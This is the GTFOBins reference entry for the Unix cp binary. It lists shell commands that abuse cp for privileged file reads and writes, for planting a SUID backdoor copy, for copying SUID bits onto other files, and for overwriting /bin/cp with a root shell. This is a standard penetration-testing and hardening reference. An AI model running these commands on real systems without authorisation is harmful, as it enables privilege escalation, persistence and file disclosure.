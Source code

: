 # GTFOBin: cp

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

```
LFILE=file_to_write
echo "DATA" | cp /dev/stdin "$LFILE"
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
cp "$LFILE" /dev/stdout
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which cp) .

LFILE=file_to_write
echo "DATA" | ./cp /dev/stdin "$LFILE"
```

This can be used to copy and then read or write files from a restricted file systems or with elevated privileges. (The GNU version of `cp` has the `--parents` option that can be used to also create the directory hierarchy specified in the source path, to the destination folder.)

```
sudo install -m =xs $(which cp) .

LFILE=file_to_write
TF=$(mktemp)
echo "DATA" > $TF
./cp $TF $LFILE
```

This can copy SUID permissions from any SUID binary (e.g., `cp` itself) to another.

```
sudo install -m =xs $(which cp) .

LFILE=file_to_change
./cp --attributes-only --preserve=all ./cp "$LFILE"
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_write
echo "DATA" | sudo cp /dev/stdin "$LFILE"
```

This can be used to copy and then read or write files from a restricted file systems or with elevated privileges. (The GNU version of `cp` has the `--parents` option that can be used to also create the directory hierarchy specified in the source path, to the destination folder.)

```
LFILE=file_to_write
TF=$(mktemp)
echo "DATA" > $TF
sudo cp $TF $LFILE
```

This overrides `cp` itself with a shell (or any other executable) that is to be executed as root, useful in case a `sudo` rule allows to only run `cp` by path. Warning, this is a destructive action.

```
sudo cp /bin/sh /bin/cp
sudo cp
```